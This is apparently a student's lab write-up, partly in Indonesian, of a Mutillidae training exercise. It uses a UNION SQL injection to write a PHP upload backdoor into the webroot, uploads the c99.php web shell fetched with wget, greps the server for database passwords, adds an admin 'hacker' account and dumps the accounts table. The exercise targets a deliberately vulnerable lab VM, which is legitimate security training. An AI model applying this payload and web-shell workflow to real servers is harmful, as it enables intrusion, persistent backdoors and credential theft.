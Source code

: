 # Lesson 11 : SQL Injection Union Exploit #4 (Create PHP Upload Script)

## Download c99.php
1. Open a console terminal
2. Get Rar File
- Buka terminal, jalankan perintah berikut :
```
mkdir -p /root/backdoor
cd /root/backdoor/
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
ls -lrt
```
3. Extract Rar File
   - Jalankan perintah berikut pada terminal :
```
unrar x stuff.rar
cat part1.txt part2.txt part3.txt > c99.php
cp c99.php c99.php.bkp
ls -lrt
```
4. Configure and Prepare c99.php
   - Jalankan perintah berikut pada terminal :
```
head -1 c99.php
sed -i '1 s/^.*$/<?php/g' c99.php
head -1 c99.php
gzip c99.php
ls -l
```

## Navigate to the User Info Page
1. Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")
2. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 

## Inject Upload Form into User Info Page
1. Inspect the View Account Details Button with Firebug
   - Klik kanan pada Button View Account, kemudian inspect element
2. Change Button Placement
   - Pada bagian text-align udah dari yang semula center menjadi left
3. Inspect the Name Textbox with Firebug
4. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 550
5. Backdoor Union SQL Union Injection
   - Pada kolom Textbox **Name** isikan 
```
' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/upload_file.php' -- 
```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
6. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya

## Upload c99.php to Mutillidae
1. Place the following URL in the Address Bar
	- Buka url berikut pada browser 
		http://10.0.1.100/mutillidae/upload_file.php
	- Klik tombol Browse
	- Cari file c99.php pada folder /root/backdoor
	- Klik tombol Open
	- Klik tombol Submit Query

## Using c99:php's to grab database password
1. Server security information
	- Buka url berikut pada browser 
		http://10.0.1.100/mutillidae/c99.php
	- Klik link navigasi Sec

2. Discover Mutillidae Application Directory
	- Isikan "pwd" pada textbox sebelah kiri paling atas
	- Klik Execute
3. Search php scripts for the string password
	- Isikan `find /var/www/mutillidae -name "*.inc" | xargs grep -i "dn" | grep "="` pada kalom kedua
	- Klik Execute
4. Viewing Password Results
    - Pada textbox pertama akan tampil hasil dari eksekusi command


## Using c99:php's to examine pillage the database
1. Connect to SQL
   - Klik link navigasi Sec
   - Isikan pada textbox
   ```
   Username: root
   Password: samurai
   Database: owasp10
   ```
   - Klik tombol Connect
2. Select table accounts
	- Select tabel account pada database owasp10
3. Insert Record Link
	- Klik link Insert 
4. Supply New User Information
   - Isikan pada textbox
```
cid Value: 20
username Value: hacker
password Value: hacker
mysignature: Noob
is_admin: TRUE
```
   - Klik tombol Confirm
5. Insert New User Information
   - Klik tombol Yes
6. Verify New User Information
   - Scroll kebawah untu melihat hasil
   - Veifikasi jika user hacker sudah dibuat
7. Prepare to Dump the Accounts Table
   - Scroll keatas
   - Klik link Dump
8. Dump the Accounts Table
   - Isikan pada textbox
```
  DB: owasp10
  Only tables (explode ";"): accounts
  File: ./dump_owasp10_accounts.sql
  Download Checkbox: Check it
  Save to file Checkbox: Check it
```
   - Klik tombol Dump
9. Save Accounts Dump File (Part 1)
   - Pilih Save File

## Proof of Lab
1. View Result
- Buka terminal
- Pindah direktori ke folder Downloads `cd Downloads`
- Jalankan perintah berikut
```
grep -i hacker dump_owasp10_accounts.sql
date
echo "Hendri F"
```
